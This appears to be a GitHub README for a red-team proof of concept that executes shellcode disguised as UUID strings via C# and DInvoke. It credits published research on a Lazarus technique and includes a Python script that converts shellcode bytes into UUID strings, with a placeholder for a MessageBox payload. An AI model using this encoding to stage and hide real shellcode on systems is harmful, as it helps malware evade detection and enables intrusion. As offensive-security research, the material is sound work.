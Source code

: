 # UuidShellcodeExec
PoC for UUID shellcode execution using DInvoke

Related [Blogpost](https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/)

This repo contains PoC for UUID shellcode execution using C# and DInvoke. The idea, technique, and the PoC is based on [NCCGroup RIFT's recent article](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/), and [Jeff White's article from 2017](http://ropgadget.com/posts/abusing_win_functions.html).
 
 For shellcode to UUID String Conversion, you can use the following (crappy) python script, or see the following [gist](https://gist.github.com/ChoiSG/9806b5c4fe35aa24c42de87d3012d650)

```
def convertToUUID(shellcode):
	# If shellcode is not in multiples of 16, then add some nullbytes at the end
	if len(shellcode) % 16 != 0:
		print("[-] Shellcode's length not multiplies of 16 bytes")
		print("[-] Adding nullbytes at the end of shellcode, this might break your shellcode.")
		print("\n[*] Modified shellcode length: ", len(shellcode)+(16-(len(shellcode)%16)))
		
		addNullbyte =  b"\x00" * (16-(len(shellcode)%16))
		shellcode += addNullbyte 

	uuids = []
	for i in range(0, len(shellcode), 16):
		uuidString = str(uuid.UUID(bytes_le=shellcode[i:i+16]))
		uuids.append('"'+uuidString+'"')

	return uuids

def main():
	# Copy/Paste the MessageBox payload here. buf = <shellcode> 

	uuids = convertToUUID(buf)
	print(*uuids, sep=",\n")

main()
```
